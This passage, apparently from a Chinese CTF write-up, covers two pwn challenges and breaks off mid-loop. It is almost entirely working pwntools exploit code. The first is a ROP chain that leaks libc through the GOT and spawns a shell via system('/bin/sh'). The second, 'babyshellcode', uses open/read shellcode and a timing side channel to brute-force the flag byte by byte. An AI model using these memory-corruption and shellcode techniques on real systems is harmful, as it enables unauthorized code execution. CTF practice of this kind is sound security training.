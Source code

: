 r       = lambda num=4096           :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda text               :io.recvuntil(text)
uu32    = lambda                    :u32(io.recvuntil(b"\xf7")[-4:].ljust(4,b"\x00"))
uu64    = lambda                    :u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))
inf     =  lambda s                 :info(f"{s} ==> 0x{eval(s):x}")

rdi = 0x000000000040117e
rsi = 0x0000000000401180
rdx = 0x0000000000401182
bss = 0x404f00
ret = 0x000000000040101a

pay = b'a'*0x10+p64(bss+0x10)+p64(rdi)+p64(1)+p64(rsi)+p64(elf.got['read'])+p64(rdx)+p64(8)+p64(elf.plt['write'])+p64(0x401211)

sla(b'win?\n',pay)
read_ = u64(r(8))

inf('read_')
libc.address = read_ - libc.sym['read']
pay = b'a'*0x10+p64(0)+p64(ret)+p64(rdi)+p64(next(libc.search(b'/bin/sh\x00')))+p64(libc.sym['system'])
s(pay)

# gdb.attach(io)

io.interactive()
babyshellcode
测信道，套个板子就行，不知道为啥我这远程爆着爆着就会变卡。
from pwn import *
context(arch='amd64')
file = './pwn'
io = process(file)

elf = ELF(file)
libc = elf.libc
# gdb.attach(io)
s       = lambda data               :io.send(data)
sa      = lambda text,data          :io.sendafter(text, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda text,data          :io.sendlineafter(text, data)
r       = lambda num=4096           :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda text               :io.recvuntil(text)
uu32    = lambda                    :u32(io.recvuntil(b"\xf7")[-4:].ljust(4,b"\x00"))
uu64    = lambda                    :u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))
inf     =  lambda s                 :info(f"{s} ==> 0x{eval(s):x}")

or_= asm("mov eax,1"+shellcraft.open('flag')+shellcraft.read('rax','rsp',0x30))
# open read
def cmp(i,j): # 测信道爆破
    a = asm('''
            mov dl,byte ptr[rsp+{}]
            cmp dl,{}
            jz $
    '''.format(i,j))
    return a
flag = 'flag{easy_shellc0de_'
for i in range(20,0x30):
    for j in range(36,127):
        try: